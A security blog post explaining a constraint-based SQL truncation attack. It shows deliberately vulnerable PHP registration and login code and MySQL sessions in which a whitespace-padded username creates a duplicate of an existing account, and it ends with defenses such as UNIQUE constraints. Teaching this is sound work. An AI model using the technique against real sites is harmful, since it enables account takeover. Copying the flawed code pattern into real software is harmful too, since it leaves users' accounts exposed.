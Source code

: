 ```yaml
---

layout: post
title: "SQL Attack (Constraint-based)"
author: "Dhaval Kapil"
excerpt: "Demonstrating a constraint-based SQL Attack"
keywords: sql, trailing, space, length, vulnerability, constraint, database, security

---
```


> ## Introduction

It is good to know that nowadays, developers have started paying attention to security while building websites. Almost everyone is aware of [SQL Injection](https://www.owasp.org/index.php/SQL_Injection). Herein, I would like to discuss another kind of vulnerability related to SQL databases which is as dangerous as SQL Injection, and yet not as common. I shall demonstrate the attack and discuss various defense strategies.

_Disclaimer_: This post is **NOT** about SQL Injection.

> ## Background

Recently, I came across an interesting piece of code. The developer had tried to make every possible attempt to secure access to the database. The following code is run whenever a new user tries to register:

```php
<?php
// Checking whether a user with the same username exists
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT * 
          FROM users 
          WHERE username='$username'";

$res = mysql_query($query, $database);
if($res) { 
  if(mysql_num_rows($res) > 0) {
    // User exists, exit gracefully
    .
    .
  }
  else {
    // If not, only then insert a new entry
    $query = "INSERT INTO users(username, password)
              VALUES ('$username','$password')";
    .
    .
  }
}
```

To check login, the following code is used:

```php
<?php
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);

$query = "SELECT username FROM users
          WHERE username='$username'
              AND password='$password' ";

$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0){
      $row = mysql_fetch_assoc($res);
      return $row['username'];
  }
}
return Null;
```

Security considerations?

- Filter user input parameters? - **CHECK**

- Use single quotes(') for additional security? - **CHECK**

Cool, what could go wrong?

Well, the attacker can log in as **ANY** user!

> ## The Attack

It is crucial to understand a few points before talking about the attack.

1. While performing string handling in SQL, whitespace characters at the end of the string are removed. In other words, `'vampire'` is treated similarly to `'vampire   '`. This is true for most of the cases, such as strings in WHERE clause or in INSERT statements. For eg., the following query shall return results with even username as `'vampire'`.

   ```sql
   SELECT * FROM users WHERE username='vampire     ';
   ```
    
   Exceptions do exist such as the LIKE clause. Note that this trimming of trailing whitespaces is done mostly during 'string comparison'. This is because, [internally](https://support.microsoft.com/en-in/kb/316626), SQL pads one of the strings with whitespaces so that their length matches before comparing them.

2. In any INSERT query, SQL enforces minimum length constraints on `varchar(n)` by just using the first 'n' characters of the string(in case the length of the string is more than 'n' characters). e.g. if a particular column has a length constraint of '5' characters, then inserting 'vampire' will result in the insert of only 'vampi'.

Now, let us setup a testing database to demonstrate the attack.

```sql
vampire@linux:~$ mysql -u root -p

mysql> CREATE DATABASE testing;
Query OK, 1 row affected (0.03 sec)

mysql> USE testing;
Database changed
```

I am going to create a table `users` with two columns, `username` and `password`. Both of these fields will be limited to 25 characters. Next, I will insert a dummy row with 'vampire' as the username and 'my_password' as the password.

```sql
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
Query OK, 0 rows affected (0.09 sec)

mysql> INSERT INTO users
    -> VALUES('vampire', 'my_password');
Query OK, 1 row affected (0.11 sec)

mysql> SELECT * FROM users;
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)
```

To demonstrate the trimming of trailing whitespaces, consider the following query:

```sql
mysql> SELECT * FROM users
    -> WHERE username='vampire       ';
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)
```

Now, assume that a vulnerable website uses the earlier mentioned PHP code to handle user registration and login. To break into any user's account(in this case 'vampire'), all that is needed to be done is to register with a username 'vampire[Many whitespaces]1' and a random password. The chosen username should be such that the first 25 characters should consist only of 'vampire' and whitespaces. This will help in bypassing the query which checks whether a particular username already exists or not.

```sql
mysql> SELECT * FROM users
    -> WHERE username='vampire                   1';
Empty set (0.00 sec)
```

Note that while running SELECT queries, SQL **_does not_** shorten the string to 25 characters. Hence, the complete string is searched and no result is obtained. Next, when an INSERT query is run, only the first 25 characters are inserted.

```sql
mysql>   INSERT INTO users(username, password)
    -> VALUES ('vampire                   1', 'random_pass');
Query OK, 1 row affected, 1 warning (0.05 sec)

mysql> SELECT * FROM users
    -> WHERE username='vampire';
+---------------------------+-------------+
| username                  | password    |
+---------------------------+-------------+
| vampire                   | my_password |
| vampire                   | random_pass |
+---------------------------+-------------+
2 rows in set (0.00 sec)
```

Great, now there are two users which will be returned when searching for 'vampire'. Note that the second username is actually 'vampire' plus 18 trailing whitespaces. Now, if logged in with 'vampire' and 'random_pass', any SELECT query that searches by the username will return the first and the original entry. This will enable the attacker to log in as the original user.

This attack has been successfully tested on MySQL and SQLite. I believe it works in other cases as well.

> ## Defenses

Clearly, this is a major vulnerability and needs to be taken care of while developing secure software. A few of the defense measures that can be taken are as follows:

1. UNIQUE constraint should be added to columns which are required/expected to be unique. This actually is a very important rule concerning software development. Even if your code tries to maintain integrity, always define your data properly. With a UNIQUE constraint on 'username', inserting another entry will not be possible. Both the strings will be detected equal and the INSERT query will fail.

2. Always prefer using 'id' as the primary key for your database table. Also, data should be tracked by their id within the program.

3. For added security, you can also manually trim input parameters to a particular length(as set in the database).
